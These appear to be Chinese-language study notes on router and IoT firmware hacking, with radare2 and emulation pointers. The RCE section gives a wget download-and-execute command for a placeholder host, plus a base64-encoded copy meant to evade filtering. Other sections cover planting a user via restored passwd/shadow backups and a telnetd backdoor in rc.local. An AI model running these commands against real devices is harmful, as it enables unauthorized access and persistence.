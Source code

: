 3.   在有 rce 的情况下，上传文件的方法

     1.   不过滤字符，直接获取：`wget -O /tmp/exp.sh http://a:b/exp.sh && chmod +x /tmp/exp.sh && /tmp/exp.sh`
     2.   过滤字符，采用 base64 编码绕过：` echo "d2dldCAtTyAvdG1wL2V4cC5zaCBodHRwOi8vYTpiL2V4cC5zaCAmJiBjaG1vZCAreCAvdG1wL2V4cC5zaCAmJiAvdG1wL2V4cC5zaA==" | base64 -d | sh`
     3.   有的固件本身并没有某个 app，例如 nc。该应用的版本不支持某些功能，或者魔改了版本，因此可以通过主动上传一个静态链接后的 nc 到目标系统（注意架构）并指定使用之

4.   有硬件、能启动的情况下拿 shell 方法

     1.   改文件

          1.   生成 `/etc/shadow`、`/etc/passwd`、`/etc/group` 文件的备份
          2.   修改备份文件，模拟新增一个用户
          3.   在路由器的 web 界面中恢复配置，其会被覆盖到系统中
          4.   ssh、telnet 登录拿 shell

     2.   修改开机自启项

          1.   修改 `rc.local` 文件，开启 telnet 或主动反弹 shell：

               ```shell
               # 
               telnetd -l /bin/ash -p 
               ```

5.   

## emula

1.   qemu
1.   mosquitto

## tools

1.   r2
     1.   `r2 elf-file`
     2.   `>i`，info
     3.   `>afl`，看函数，fuzz
     4.   `>af func`，切换到函数 func
     5.   `>pdf @func`，反汇编展示 func
     6.   `>pdc @func`，看 func 的汇编
     7.   `>/str`，可以查找字符串
     8.   `>wx 90`，修改，将当前位置直接修改成 `\x90`
2.   gdbserver
     1.   


## protocol

1.   iec104







